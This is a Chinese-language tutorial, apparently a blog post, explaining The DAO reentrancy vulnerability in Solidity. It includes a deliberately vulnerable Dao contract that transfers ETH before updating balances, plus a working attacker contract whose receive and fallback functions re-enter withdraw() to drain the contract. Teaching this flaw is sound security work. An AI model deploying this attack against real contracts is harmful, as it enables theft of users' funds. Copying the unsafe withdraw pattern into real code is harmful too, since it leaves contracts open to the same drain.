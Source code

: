 ```yaml
---
title: tho dao 合约漏洞
date: 2024-07-30 13:43:23
author: ivhu
categories:
  - 以太坊
  - 合约安全
tags:
  - solidity
  - the dao
---
```


## 什么是 TheDao 漏洞？

简单来讲，thedao 漏洞允许黑客将 thedao 合约中储存的 eth 全部取走。

那么什么是合约之中的 eth 呢？

solidity 允许合约定义 payable 方法来接受 eth. 当用户调用带有 payable 关键字的合约方法时，如果`msg.value`不为 0,则将`msg.value`转移到合约账下。

由于 thedao 是一个面对所有人的合约，而他的业务逻辑也需要用户将 eth 转移到他的合约里面。

那么正常情况下 thedao 合约中有大量的 eth,来自于不同人的转账，一般而言合约会使用一个 mapping 来记录每个地址有多要 eth 在这里面。

## solidity 特性

如果我们向一个合约转账，这里的转账不是使用合约调用的方式，而是像普通转账一样，calldata 为空。

这时合约会自动调用 receive 方法（如果有的话），这将允许合约在收到转账后进行一些操作。

### 什么是先转账后记账

在合约中我们可以使用 transfer,send 等方法将合约中一定数量的 eth 转移到对应的账户中，当然这里的转账对象也可以是另一个合约。

而记账的意思是，由于我们所有的 eth 都是放合约里面，没有区分那个 eth 是谁的，具体的记录一般在合约中用 mapping 记录，那么在合约中，每次我们进行转账时，都应该修改我们维护的账本（也就是那个 mapping）。先转账后记账的意思就是，先使用 transfor,send,call 等方法转账，而后更新 mapping 中的数据。在合约中表现为转账的操作在修改 mapping 的操作前面。

eg：

```solidity
    (bool sent, ) = msg.sender.call{value: bal}("");  // 先转账
    require(sent, "Failed to withdraw sender's balance");

    // Update user's balance.
    balances[msg.sender] = balances[msg.sender] - bal;  // 后修改mapping中的数据

```

那么回到 solidity 的特性，在转账时，接受者合约可以定义`recevie`方法，在转账发生时进行相关操作。

## 漏洞的利用

- 当我们调用 theDao 中转账函数时，合约会向`msg.sender`转账.

- `msg.sender`是黑客的合约，当 theDao 向黑客的合约转账时，会调用黑客合约中的 recevie 方法.

- 由于 evm 是单线程的，所以后面修改 mapping 的操作还不会进行，而黑客的 recevie 方法则再次调用 thedao 中的转账合约.

- 由于 thedao 合约还没有修改账本，所以 thedao 合约还是认为黑客合约还可以提款，而当进行到提款操作时又会进入到黑客合约的`recevie`方法.

如此循环，直到达到黑客`recevie`中设置的阈值。

**案例合约：**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract Dao {
mapping(address => uint256) public balances;

    function deposit() public payable {
        require(msg.value >= 1 ether, "Deposits must be no less than 1 Ether");
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        // Check user's balance
        require(
            balances[msg.sender] >= 1 ether,
            "Insufficient funds.  Cannot withdraw"
        );
        uint256 bal = balances[msg.sender];

        // Withdraw user's balance
        // payable(msg.sender).transfer(bal);  // transfer只能向eoa发送交易
        (bool sent, ) = msg.sender.call{value: bal}("");  // call  eoa和合约都可以发送
        require(sent, "Failed to withdraw sender's balance");

        // Update user's balance.
        balances[msg.sender] = balances[msg.sender] - bal;
        require(balances[msg.sender]>=0,"balances < 0");
    }

    function daoBalance() public view returns (uint256) {
        return address(this).balance;
    }

}
```

**黑客合约：**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IDao {
    function withdraw() external ;
    function deposit()external  payable;
 }

contract Hacker{
    IDao dao;
    address payable hacker;

    constructor(address _dao){
        dao = IDao(_dao);
        hacker = payable(msg.sender);
    }

    function attack() public payable {
        // Seed the Dao with at least 1 Ether.
        require(msg.value >= 1 ether, "Need at least 1 ether to commence attack.");
        dao.deposit{value: msg.value}();

        // Withdraw from Dao.
        dao.withdraw();
    }

    fallback() external payable{
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }
    receive() external payable {
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }

    function getBalance()public view returns (uint){
        return address(this).balance;
    }
    function getAllETH()public {
        hacker.transfer(address(this).balance);
    }
}
```
